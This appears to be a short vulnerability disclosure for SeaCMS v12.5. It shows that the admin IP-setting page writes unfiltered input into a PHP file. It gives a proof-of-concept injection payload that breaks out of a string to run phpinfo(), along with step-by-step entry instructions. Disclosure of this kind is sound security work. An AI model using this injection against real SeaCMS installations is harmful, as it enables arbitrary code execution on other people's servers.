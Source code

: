 # Seacms v12.5(2021.01.02) version code execution




   Download address on official website: https://www.seacms.net
   Through code audit, the vulnerability points are /kfcst7/admin_ip.php
   Note: after the program is installed, the background directory will be renamed randomly. Here it is changed to kfcst7



admin_ ip.php Write the input directly to the ip.php , without filtering, resulting in arbitrary code execution:

![image](https://github.com/yuebinge/cve/blob/main/img/42.png)
###payload:
```php
127.0.0.1";phpinfo();//
```
Enter in the input box      127.0.0.1";phpinfo();//
![image](https://github.com/yuebinge/cve/blob/main/img/43.png)

Confirm, submit

![image](https://github.com/yuebinge/cve/blob/main/img/44.png)

Again, the statement phpinfo() is executed

![image](https://github.com/yuebinge/cve/blob/main/img/45.png)
So there is a code execution vulnerability.
